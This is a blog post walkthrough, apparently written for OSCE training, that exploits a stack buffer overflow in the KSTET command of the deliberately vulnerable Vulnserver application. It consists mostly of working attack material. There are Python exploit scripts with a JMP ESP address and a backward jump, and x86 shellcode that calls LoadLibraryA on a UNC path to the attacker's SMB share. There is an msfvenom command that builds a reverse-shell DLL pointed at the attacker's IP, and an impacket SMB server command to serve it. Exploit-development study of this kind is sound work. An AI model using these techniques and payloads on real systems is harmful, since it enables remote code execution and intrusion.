:slug: vulnserver-kstet-alternative/
:date: 2020-07-02
:category: attacks
:subtitle: Exploiting in stages
:tags: osce, vulnserver, training, exploit
:image: cover.png
:alt: Photo by Philipp Katzenberger on Unsplash
:description: This post will show how to exploit the Vulnserver KSTET command loading the payload from an external source.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/iIJrUoeRoCQ

= KSTET: Sideloading exploiting

This is an alternate take of the article of exploiting the
link:../vulnserver-kstet/[KSTET] command  of `Vulnserver`, a VbD
(Vulnerable-by-Design) application in which you can practice Windows
exploit development.

The `KSTET` exploitation is really interesting because after controlling
the instruction pointer `EIP`, we are left with little space to work on.

With that kind of restrictions, we must be very creative in order to achieve
a working exploit that triggers something complex like a reverse shell.
For example, in the exploitation of the `GTER`,
command, we have space restrictions too and we used an
link:../vulnserver-gter/[Egghunter] and
link:../vulnserver-gter-no-egghunter/[reused part of the WinSock stack]
to create a custom reverse shellcode.

In the `KSTET` command article, we used a technique called
link:../vulnserver-kstet/[socket reusing].

In this post we will squeeze our space restriction a little more and use a
different exploitation technique.

I will shamelessly leave part of the article for the `KSTET` exploitation
and only divert it when needed.

`KSTET` take 2!

== Fingerprinting KSTET

Enumerating and fingerprinting is the most important step when verifying
the security of any target.

Let's check how the `KSTET` command behaves:

[source,console]
----
$ telnet 192.168.0.20 9999
Trying 192.168.0.20...
Connected to 192.168.0.20.
Escape character is '^]'.
Welcome to Vulnerable Server! Enter HELP for help.
KSTET hello
KSTET SUCCESSFUL
----

Well, easy enough. Now we are going to do the same but we will check it
under our debugger. I will use Immunity Debugger.

The first step is to identify where the `KSTET` command is processed.

We can do that by right clicking,
then `Search for -> All referenced text strings`, right click again, then
`Search for text` and type `KSTET`. Make sure that `Entire scope` is selected.
Now, select the match on where `KSTET` string is presented and set a
breakpoint:

image::debug1.gif[Debugging KSTET]

With that in place, we can start again our connection to `Vulnserver` and
see what happens under the hood:

image::debug2.gif[Debugging KSTET]

As you can see, several things are happening:

. Our breakpoint was reached when we typed `KSTET hello`.
. Several external functions are called, including `strncpy`, `malloc`,
`memset`.
. But there is one that stands out: `strcpy`, which will copy anything that
is on one buffer to another, without checking buffer boundaries.

Let's see what happens when we issue something larger than a `hello` to the
`KSTET` command:

image::crash1.gif[Crash]

Uggh! With a very short string, Vulnserver crashed and we overwrote `EIP`,
which means that we can control the execution flow of the application.

With that, we can start creating our proof-of-concept exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 200
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::poc1.gif[Crash]

That's good news. However, the injected string was really short and maybe
we'd have a narrow buffer space to work on.

== Checking available buffer space

If we check the state of the application after the crash, we will see this:

image::space1.png[Buffer space]

In the dump window (bottom left), we see our injected buffer. In the PoC,
we sent 200 `A` chars but as you can see here, the total amount of injected
bytes, including the word `KSTET` itself is only 0x63 or 99 bytes.

In the exploitation of `GTER` command, we had 140+ bytes to work on and we
used two techniques:
link:../vulnserver-gter-no-egghunter/[WinSocket stack reusing] and
an link:../vulnserver-gter/[egghunter].

The first one is not viable because altough we reduced the shellcode length to
the half, the resultant shellcode was 128 bytes.

We could use an `egghunter` here but that wouldn't be much fun. Why make it
easy if we can do it the hard way?

OK, let's start by checking the offset of the crash, by creating a cyclic
pattern of 100 characters using `pattern_create.rb` tool from Metasploit:

[source,console]
----
$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
----

And update our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'<paste pattern here>'
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::offset1.gif[Cyclic pattern]

As you can see, `EIP` was overwritten with `63413363`. We can check the
offset of that bytes on our cyclic pattern to get the offset on where `EIP`
gets overwritten:

[source,console]
----
$ msf-pattern_offset -q 63413363
[*] Exact match at offset 70
----

Now, check that offset by updating our exploit:

[source,python]
----
import socket

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    b'B' * 4 +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And run it:

image::offset2.gif[Cyclic pattern]

Wonderful! We know exactly how to overwrite `EIP` to get control over the
execution flow.

== Exploiting

As with the link:../vulnserver-trun/[TRUN] and link:../vulnserver-gter/[GTER]
commands, we have a direct `EIP` overwrite here and the `ESP` register
points directly to our controlled buffer. That means that we can look for
a `JMP ESP` instruction and overwrite `EIP` with its address to take
control of the execution flow. We can do that using `mona.py` plugin:

[source,console]
----
!mona jmp -r esp -cp nonull -o
----

This would tell `mona` to look for instructions that can be used to jump to
`ESP` (`jmp -r esp`), excluding pointers with null bytes (`-cp nonull`) and
exlude OS DLLs (`-o`). The result is this:

image::mona1.png[JMP ESP]

We can choose any of those 9 pointers. I'll choose the one at `625011BB`.

Now, we can update the exploit with that address:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    b'C' * 26
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp1.gif[JMP ESP]

Great! However, as you can see, we landed to a 20 bytes buffer where we
put the `C` chars but we have 66 bytes above on the buffer of the `A` chars.

With a short jump backwards we can easily jump to that place:

image::jmp2.gif[JMP backwards]

The resultant bytes were `EB B5`. We can update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::jmp3.gif[JMP backwards]

But again, we were brutally reminded that we have a narrow buffer space
to work on.

To workaround that constrain, we will use this time a sideloading technique
for injecting the needed payload from an adjacent computer.

== Dynamic linking

Commonly, when creating an exploit, you inject the required payload and
modify the instruction pointer `EIP` to point to your code. Then, the
victim application will execute the code you injected that can be a simple
`MessageBox` or anything complex like a `TCP` shell.

That payload, or shellcode, can only use calls to the OS API that the
victim application has already loaded in memory. The OS API is distributed on
reusable files that can be linked to any application. In Windows
they are known as *Dynamic-Link Library* or `DLL`.
Commonly, an application will load executable dependencies at run-time using
the OS dynamic linker.

We can see the `DLL` files loaded using several ways. On Vulnserver,
we will use our debugger again:

image::modules1.png[Executable modules]

That means that Vulnserver can execute any function included on any of those
modules.

However, there is a way for an application to include new libraries when it's
already running: *Dynamic Linking*. On Windows, it can be done with any of the
*LibraryLoad* functions family. Those functions are located on `KERNEL32.DLL`,
which is a module that virtually any Windows application loads at run-time.

With that simplified introduction to dynamic linking, it's time to write
some Assembler!

== Dynamic-included payload

The first thing to do is locate the address of `LoadLibraryA` on our system.
We can do that using the
link:http://www.vividmachines.com/shellcode/arwin.c[arwin] tool:

[source,console]
----
C:\Users\Fluid\Downloads\osce\tools>arwin.exe kernel32 LoadLibraryA
arwin - win32 address resolution program - by steve hanna - v.01
LoadLibraryA is located at 0x76460b30 in kernel32
----

*NOTE:* I'm using `Windows 10 20H2` at the moment of this writing. The
function addresses will likely change on different OS versions.

We also need to know the `LoadLibraryA` parameters:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya
[source,cpp]
----
HMODULE LoadLibraryA(
  LPCSTR lpLibFileName
);
----

Easy! The `lpLibFileName` is a string with the location of the `DLL` file to
be included. To our advantage, the location can be an Universal Naming
Convention (`UNC`) path in the form `\\server\share\file.dll`.

In Windows, that path would be resolved using the `SMB` protocol. That means
that we must expose that file using a `SMB` server. But we will get to that
later. For now, we can predict that the `UNC` path of our payload will
be at `\\attacker_ip\share\shell.dll`. In my case, it would be
`\\192.168.0.18\X\pwn.dll`.

To call `LoadLibraryA` on a `x86` architecture, we must push to the stack
the `lpLibFileName` value which is a pointer to the
`\\192.168.0.18\X\pwn.dll` string. As `x86` is a 32 bits architecture, we
must push exactly 4 bytes each time to the stack. And as we are pushing data
to the stack, it must be in reverse order. So, we need to convert
`\\192.168.0.18\X\pwn.dll` to hex, split it in chunks of 4 bytes, pad as
needed and reverse. This can be done with:

[source,console]
----
$ for i in $(echo -ne '\\\\192.168.0.18\\X\\pwn.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
push 0x6c6c642e
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
----

With the required information, we can now write the call to `LoadLibraryA`:

[source,x86asm]
----
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        ; overwriting our shellcode
xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
                        ; the UNC path
push ebx                ; PUSH NULL byte
push 0x6c6c642e         ; \\192.168.0.18\X\pwn.dll reversed
push 0x6e77705c
push 0x585c3831
push 0x2e302e38
push 0x36312e32
push 0x39315c5c
push esp                ; Push pointer of the UNC path
mov ebx,0x76460b30      ; Move into EBX the address of 'LoadLibraryA'
call ebx                ; call 'LoadLibraryA("\\192.168.0.18\X\pwn.dll")'
----

We can compile that using `nasm`:

[source,console]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the shellcode using this:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x6c\x6c\x30\x30\x68\x5c
\x73\x68\x65\x68\x31\x38\x5c\x73\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36
\x68\x5c\x5c\x31\x39\xbb\x30\x0b\x46\x76\xff\xd3
----

Let's update our exploit with that:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LOAD_LIBRARY = (
    b'\x83\xec\x64\x31\xdb\x53\x68\x2e\x64\x6c\x6c\x68\x5c\x70\x77\x6e'
    b'\x68\x31\x38\x5c\x58\x68\x38\x2e\x30\x2e\x68\x32\x2e\x31\x36\x68'
    b'\x5c\x5c\x31\x39\x54\xbb\x30\x0b\x46\x76\xff\xd3'
)

PAYLOAD = (
    b'KSTET ' +
    b'\x90' * 2 +
    LOAD_LIBRARY +
    b'A' * (70 - len(LOAD_LIBRARY) - 2) +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And check it:

image::loadlib1.gif[LoadLibrary]

Great! The `LoadLibraryA` function is now ready.

== Finishing exploiting

Now we everything set, we must now create a shellcode on a `DLL` file
and share it on a `SMB` server.

Luckily for us, `msfvenom` can create shellcodes and export them to `DLL`
files. Let's do that:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f dll -o pwn.dll
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
Saved as: pwn.dll
----

And must server that `pwn.dll` on a `SMB` share called `X`. We can use
Impacket's `smbserver.py` to do that:

[source,console]
----
$ sudo impacket-smbserver -smb2support X .
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
----
This will create a new anonymous `SMB` server, will share the current
directory `.`, using a share name `X`. The `-smb2support` parameter is
needed because Windows 10 will refuse to connect to `SMB` servers using
the `SMBv1` protocol.

Now we are ready. We can check our exploit:

image::success.gif[Success]

Yes! We got a shell! You can see how the victim is self-hacking by retrieving
the payload from our attacking machine!

You can download the final exploit link:exploit.py[here]

== Conclusion

This was a very fun way for exploiting Vulnserver. Remember that this
technique only works if the attacking machine is adjacent to the victim
machine and there are not network restrictions between them.

